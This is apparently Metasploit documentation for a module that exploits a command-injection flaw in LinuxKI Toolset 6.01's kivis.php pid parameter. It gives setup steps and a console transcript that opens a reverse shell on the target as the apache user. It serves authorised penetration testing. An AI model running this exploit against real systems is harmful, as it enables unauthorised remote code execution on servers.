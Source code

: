 ## Vulnerable Application

LinuxKI Toolset <= 6.01

This module exploits a vulnerability in LinuxKI Toolset <= 6.01 which allows remote code execution.
The `kivis.php` `pid` parameter received from the user is sent to the `shell_exec` function, resulting in security vulnerability.

To test this application, you need to download the version 6.01 [here](https://github.com/HewlettPackard/LinuxKI/blob/v6.0-1/Dockerfile).
Do not forget to change [this URL](https://raw.githubusercontent.com/HewlettPackard/LinuxKI/master/rpms/linuxki-6.0-1.noarch.rpm) inside
the Dockerfile with [this one](https://github.com/HewlettPackard/LinuxKI/raw/v6.0-1/rpms/linuxki-6.0-1.noarch.rpm).

## Verification Steps
1. Install the application
2. Start msfconsole
3. Do: ```use exploit/linux/http/linuxki_rce```
4. Do: ```set RHOSTS```
4. Do: ```set LHOST```
5. Do: ```run```
6. You should get a shell.

## Options
### TARGETURI

The directory where LinuxKI Toolset is installed

## Scenarios
### LinuxKI Toolset v6.01
```
msf5 > use exploit/linux/http/linuxki_rce
msf5 exploit(linux/http/linuxki_rce) > set rhosts 10.0.0.1
rhosts => 10.0.0.1
msf5 exploit(linux/http/linuxki_rce) > set rport 8080
rport => 8080
msf5 exploit(linux/http/linuxki_rce) > check
[+] 10.0.0.1:8080 - The target is vulnerable.
msf5 exploit(linux/http/linuxki_rce) > set lhost 10.0.0.1
lhost => 10.0.0.5
msf5 exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 10.0.0.5:4444
[*] Sending exploit...
[*] Command shell session 1 opened (10.0.0.5:4444 -> 10.0.0.1:58914) at 2020-05-19 08:32:32 +0300

id
uid=48(apache) gid=48(apache) groups=48(apache)
```
